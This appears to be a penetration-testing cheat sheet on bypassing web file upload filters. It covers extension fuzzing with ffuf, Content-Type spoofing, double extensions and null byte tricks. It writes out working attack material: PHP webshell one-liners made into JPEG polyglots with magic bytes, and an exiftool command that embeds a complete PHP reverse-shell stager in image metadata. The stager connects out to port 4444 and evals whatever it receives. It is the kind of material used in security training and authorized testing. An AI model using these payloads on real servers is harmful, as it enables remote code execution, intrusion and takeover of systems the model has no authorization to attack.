




---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# File Uploads

## Absent Validation

Enumerate the technologies used on the server and upload a same-language webshell. This can be done using a tool such as [whatweb](../../../tools/tools/web/whatweb.md) and/or fuzz the `index` extension with a tool like [ffuf](../../../tools/tools/web/dirbusting/fuff.md).&#x20;



```bash
whatweb <URL>
```




```bash
ffuf -u <URL>/index.FUZZ -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -c -ac
```




## Client-side Filters

### Front-end Validation

Any code that runs on the client-side is under the client's control. For example, if the `accept` HTML attribute is used to filter uploads, it can be easily modified using the browser's developer tools. In the example below, we can remove the validation altogether (`onchange=""`) or add the required extension to the list (`.py`).

<figure><figcaption><p>Figure 1: Modifying front-end validation.</p></figcaption></figure>

## Server-side Filters

### Type Filters

Two common methods for file content validation are checking the `Content-Type` header and/or checking the actual file content.

#### Content-Type Header

Change the `Content-Type` header to an allowed content type before it reaches the server.

<figure><figcaption><p>Figure 2: The <code>text/x-python</code> content type is not allowed.</p></figcaption></figure>

<figure><figcaption><p>Figure 3: Changing the header to <code>image/jpeg</code> type bypassed the filter.</p></figcaption></figure>

#### MIME Type

Polyglot files, i.e., files that different application interpret in different ways, can be created to trick the application. This can be achieve by modifying the file's **magic bytes**, aka _headers_ or _signatures_. For instance, JPG's [magic bytes](https://en.wikipedia.org/wiki/List\_of\_file\_signatures) are `FFD8 FFE0` (Figure 4).

<figure><figcaption><p>Figure 4: Checking the magic bytes of a JPG image.</p></figcaption></figure>

The operating system checks the above sequence and recognizes this file as a JPEG image.


```bash
file --mime-type google_logo.jpg
google_logo.jpg: image/jpeg
```


We can add this sequence in front of a malicious non-JPEG file to trick the OS/application that it is really a JPEG file.

```bash
# check file's content
cat webshell.php
<?php eval(['cmd'];?>
# check file's type
file --mime-type webshell.php
webshell.php: text/x-php
# append JPG's magic bytes to the php code
echo -e "\xFF\xD8\xFF\xE0<?php eval($_GET['cmd'];?>" > polyglot.php
# check file's content
cat polyglot.php
����<?php eval(['cmd'];?>
# check file's type
file polyglot.php
polyglot.php: JPEG image data
```

This can be also be done using tools such as [`hexeditor`](https://www.rogoyski.com/adam/programs/hexedit/). We need to add the required bytes at the start of the file, and then modify them (Figure 5 & 6).

```bash
# added 4 bytes at the start of the file
cat webshell.php
AAAA<?php eval(['cmd'];?>
# open file in hexeditor
hexeditor webshell.php
```

<figure><figcaption><p>Figure 5: Opening the file with hexeditor.</p></figcaption></figure>

<figure><figcaption><p>Figure 6: Modifying the file's magic bytes.</p></figcaption></figure>

### Blacklists

Fuzz for allowed extensions:

1. Upload an allowed file and capture the request.
2. Modify the file extension and save the request as file (Figure 7).
3. Fuzz it with [fuff](../../../tools/tools/web/dirbusting/fuff.md) (Figure 8).

<figure><figcaption><p>Figure 7: Modifying the HTTP request andexporting it as a file.</p></figcaption></figure>

<figure><figcaption><p>Figure 8: Fuzzing the file extensions with ffuf.</p></figcaption></figure>

### Whitelists

#### Double & Reverse Extensions

Some filters might **only check if the extension exists** within the file name, which can be bypassed by renaming the file to `webshell.jpg.phar`.  Others, might require for the file name to end with an allowed extension so we will have to reverse them (`webshell.phar.jpg`) (Figure 9).

<figure><figcaption><p>Figure 9: Bypassing the extension filter using double extensions.</p></figcaption></figure>

In case we can use the **reverse double extension** method, the file will be upload but it might not be able to execute. Instead it can be served as a direct download (Figure 10) or as a page (Figure 11).

<figure><figcaption><p>Figure 10: The webshell script treated as a direct download.</p></figcaption></figure>

<figure><figcaption><p>Figure 11: The webshell script served as a file.</p></figcaption></figure>

#### Null Byte Injection

We can manipulate the file-handling system by leveraging the fact that the null byte (`\x00`) marks the end of a string in various programming languages. By **injecting a URL-encoded null byte** after the script's extension (`.php`) (Figure 12), the server might interpret it as the end of the string and ignore what comes after it, in this case, the `.png` extension. However, when the server later processes the file, it could read it as a PHP script and execute it.

<figure><figcaption><p>Figure 12: Injecting a null byte in the file's name.</p></figcaption></figure>

To access the file only the part before the null byte might be called, i.e., `revshell.php`.

## Metadata Injection

We can inject our payload into an image's metadata and then call the image via an LFI vulnerability ([source](https://spencerdodd.github.io/2017/03/05/dvwa\_file\_upload/)).


```bash
exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
     1 image files updated
```


<figure><figcaption><p>Figure 13: Injection a payload into an image's metadata.</p></figcaption></figure>
